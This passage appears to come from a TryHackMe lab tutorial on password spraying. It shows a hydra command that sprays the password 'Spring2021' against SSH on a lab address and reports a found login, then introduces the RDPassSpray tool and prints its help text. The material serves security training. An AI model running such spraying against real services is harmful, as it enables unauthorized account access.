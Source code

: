 **SSH**
```
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy
```
Here we can use hydra to perform the password spraying attack against the SSH service using the Spring2021 password.

```
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```
Note that L is to load the list of valid usernames, and -p uses the Spring2021 password against the SSH service at 10.1.1.10. The above output shows that we have successfully found credentials.


**RDP**
Let's assume that we found an exposed RDP service on port 3026. We can use a tool such as RDPassSpray to password spray against RDP. First, install the tool on your attacking machine by following the installation instructions in the tool’s GitHub repo. As a new user of this tool, we will start by executing the python3 RDPassSpray.py -h command to see how the tools can be used:
> https://github.com/xFreed0m/RDPassSpray
```bash
user@THM:~# python3 RDPassSpray.py -h
usage: RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]

optional arguments:
  -h, --help            show this help message and exit
  -U USERLIST, --userlist USERLIST
                        Users list to use, one user per line
  -u USER, --user USER  Single user to use
  -p PASSWORD, --password PASSWORD
                        Single password to use
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password list to use, one password per line
  -T TARGETLIST, --targetlist TARGETLIST
                        Targets list to use, one target per line
  -t TARGET, --target TARGET
                        Target machine to authenticate against
  -s SLEEP, --sleep SLEEP
                        Throttle the attempts to one attempt every # seconds, can be randomized by passing the value 'random' - default is 0
  -r minimum_sleep maximum_sleep, --random minimum_sleep maximum_sleep
                        Randomize the time between each authentication attempt. Please provide minimun and maximum values in seconds
  -d DOMAIN, --domain DOMAIN
                        Domain name to use
  -n NAMES, --names NAMES
                        Hostnames list to use as the source hostnames, one per line
  -o OUTPUT, --output OUTPUT
                        Output each attempt result to a csv file
  -V, --verbose         Turn on verbosity to show failed attempts
```
